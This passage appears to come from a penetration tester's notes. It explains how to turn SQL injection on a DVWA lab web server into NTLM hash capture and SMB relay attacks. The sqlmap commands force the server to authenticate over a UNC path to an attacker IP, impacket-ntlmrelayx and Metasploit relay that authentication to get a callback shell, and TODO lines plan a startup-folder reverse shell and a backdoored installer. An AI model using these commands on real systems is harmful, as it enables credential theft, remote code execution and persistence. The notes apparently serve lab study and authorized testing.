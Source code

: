 - Responder

```

```

- Metasploit Framework

```
smb_relay
```

- Impacket ntlmrelayx

```
$ sudo impacket-ntlmrelayx -t smb://<target_IP> -smb2support
```

- Exploit the webserver via SQL injection manually using either `--file-read` or `--sql-query`.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-read="\\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --sql-query="SELECT LOAD_FILE('\\\\<attacker_IP>\\snare.txt')"
```

#### 4.3.2.2 - SMB Relay Callback Shell

##### 4.3.2.2.1 - Automated

- Exploit the webserver via SQL injection with `--os-smbrelay` but run with root privileges.

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --os-smbrelay
```

##### 4.3.2.2.2 - Manual

- Repeat the [[05 - Initial Foothold|previous step]] and launch [[Impacket|ntlmrelayx]] and/or [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Active/Responder/Usage|Responder]] to receive a callback shell connection. This can be done with [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Active/Metasploit#^c109ec|metasploit SMB relay exploit module]].

```
$ sudo impacket-ntlmrelayx -t smb://<target_IP> -smb2support -e shell.exe
```

## 4.4 - Persistence

### 4.4.1 - Windows

TODO: See if it's possible to upload a reverse shell in the startup folder with `--file-write` and `--file-dest`.

TODO: See if it's possible to upload a backdoored with legit program such as, setup installer.
